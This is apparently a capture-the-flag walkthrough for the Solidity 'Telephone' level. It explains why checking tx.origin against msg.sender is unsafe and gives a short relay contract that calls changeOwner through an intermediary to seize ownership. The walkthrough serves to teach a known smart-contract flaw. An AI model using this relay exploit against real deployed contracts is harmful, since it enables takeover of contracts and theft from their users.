


***Telephone***


Claim ownership of the contract below to complete this level:

```
pragma solidity ^0.8.0;

contract Telephone {

  address public owner;

  constructor() {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```

Looks like all we have to do to set the owner is make sure the `tx.origin` is anything other than the `msg.sender.`

Did you know that smart contracts have the ability to call other contracts? You could ask contract A to interact with a function in contract B. To contract B, the `msg.sender` is contract A, but the `tx.origin` would be the original entity that kicked off the transaction.

In a simple call chain A->B->C->D, inside D `msg.sender` will be C, and `tx.origin` will be A.

Let's build that!

All we have to do is write a contract that relays the message to a target contract. Import the example that's deployed, add a parameter to set a new owner, and deploy it.

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import 'target.sol';

contract test {
    function run(address _target, address _newOwner) public{
        Telephone(_target).changeOwner(_newOwner);
    }
}
```


Add the instance of your deployed Telephone contract as a parameter and you'll be ready to pass on the new owner.


Easy enough!


